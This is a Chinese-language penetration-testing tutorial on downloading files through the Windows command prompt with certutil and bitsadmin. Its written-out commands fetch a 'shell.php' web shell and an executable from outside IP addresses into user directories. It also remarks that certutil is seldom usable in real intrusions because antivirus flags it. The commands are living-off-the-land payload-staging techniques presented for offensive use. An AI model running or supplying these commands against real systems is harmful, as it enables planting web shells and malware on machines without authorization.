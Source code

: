 

## Windows中cmd窗口的文件下载(bitsadmin、certutil、iwr)

无论是bitsadmin还是certutil，都要将下载的文件放到拥有权限的目录，否则会提示权限拒绝

### certutil

certutil也是windows下一款下载文件的工具，自从WindowsServer 2003就自带。但是在Server 2003使用会有问题。也就是说，以下命令是在Win7及其以后的机器使用。

```
certutil -urlcache -split -f http://114.118.80.138/shell.php  #下载文件到当前目录下
​
certutil -urlcache -split -f http://114.118.80.138/shell.php  c:/users/xie/desktop/shell.php        #下载文件到指定目录下
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01d552933b88da23c6.png)

但是该命令的使用会引发杀毒软件的查杀，所以在实际渗透中几乎不适用该命令

[![](https://p3.ssl.qhimg.com/t013b41d5d1d83d0033.png)](https://p3.ssl.qhimg.com/t013b41d5d1d83d0033.png)

### bitsadmin

bitsadmin 可以用来在windows 命令行下下载文件。bitsadmin是windows 后台智能传输服务的一个工具，windows 的自动更新，补丁之类的下载就是用这个工具来实现的。Windows Server2003和XP是没有bitsadmin的，Winc7及其之后的机器才有。

**bitsadmin的一些特性：**

**·** bitsadmin 可以在网络不稳定的状态下下载文件，出错会自动重试，可靠性应该相当不错。

**·** bitsadmin 可以跟随URL跳转.

**·** bitsadmin 不像curl wget 这类工具那样能用来下载HTML页面。

用法：

```
bitsadmin /transfer test http://files.cnblogs.com/files/gayhub/bcn.js  c:\users\xie\desktop\shell.php
# "任务名" 可以随意起，保存文件的文件路径必须是已经存在的目录，否则不能下载。
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0138c82e80dc25cc82.png)

下载完成后

[![](https://p1.ssl.qhimg.com/t014c485e5a5f51321f.png)](https://p1.ssl.qhimg.com/t014c485e5a5f51321f.png)

默认情况下bitsadmin下载速度极慢，下载较大文件需要设置优先级提速，以下是用法示例

```
start bitsadmin /transfer test http://192.168.10.14/test.exe  f:\test.exe
bitsadmin /setpriority test foreground     #设置任务test为最高优先级
```
